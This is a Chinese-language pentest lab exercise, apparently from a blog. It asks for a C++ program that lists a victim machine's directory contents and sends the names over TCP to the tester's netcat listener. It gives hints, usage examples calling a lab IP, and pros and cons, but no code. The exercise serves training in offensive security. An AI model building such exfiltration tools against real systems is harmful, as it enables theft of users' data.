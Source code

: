# 任务 1：创建一个窃取用户目录内容的简单程序

使用 C++ 编写一个程序，检查目标目录中存储了哪些文件和目录，并将它们的名称发送回渗透测试人员。

提示：

* 您可能想要使用`dirent` C++ 库。

* 对于此工具的网络功能，使用`Winsock`库并通过 TCP 发送数据会更简单。

* 对于接收数据，您可以使用 `netcat` 或 `ncat` 之类的工具 - 不要自己编写。

* 您可以将通过 RDP 连接的机器用作受害者机器。您不需要将创建的窃取程序发送到其他任何地方。

关于`Winsock`库的知识请参考：[Winsock客户端和服务器代码](https://r3kind1e.github.io/2021/10/12/Winsock%E5%AE%A2%E6%88%B7%E7%AB%AF%E5%92%8C%E6%9C%8D%E5%8A%A1%E5%99%A8%E4%BB%A3%E7%A0%81/)，关于列出文件系统的文件的多种方式请参考：[Linux下的dirent.h与C++17的std::filesystem命名空间](https://r3kind1e.github.io/2021/10/14/dirent.h/)。

要在Windows下使用`dirent.h`，你需要：[tronkko/dirent](https://github.com/tronkko/dirent)。



**文件名：**`ls.cpp`

**用法：**`ls.exe server-name ["dirname1"] ["dirname2"] ... ["dirnamen"]`

**用法详解：**

* 当不传入任何命令参数时，程序会提示用户正确的用法。

  输入：`ls.exe`

  输出：`usage: ls.exe server-name ["dirname1"]["dirname2"] ...["dirname n"]`

* 传入一个命令参数，为服务器的域名或者是IP地址。程序会将当前工作目录中的目录和文件的名字发送到服务器。

  输入：`ls.exe 192.168.248.129`，或者是`ls.exe www.baidu.com`

* 传入两个命令参数，第一个为服务器的域名或者是IP地址，第二个为指定的目录（需要用双引号括起来）。

  输入：`ls.exe 192.168.248.129 "C:\\Develop"`

* 传入多个命令参数，第一个为服务器的域名或者是IP地址，其它的为指定的目录（需要用双引号括起来），参数之间使用空格分隔。

  输入：`ls.exe 192.168.248.129 "C:\\Develop" "C:\Ruby30-x64"`

  

**环境要求：**以下代码在Visual Studio 2019 16.10 ，C++ 语言标准：预览-最新 C++ 工作草案中的功能（/std:c++latest）测试通过。因为使用了C++20的`std::format`。

**优点：**可以读取任意多个用户目录；进行错误检查；只需调用一次send，就可以将所有数据一次性发送；传输的数据格式直观；

**缺点：**C++语言标准为最新，向下兼容性差。

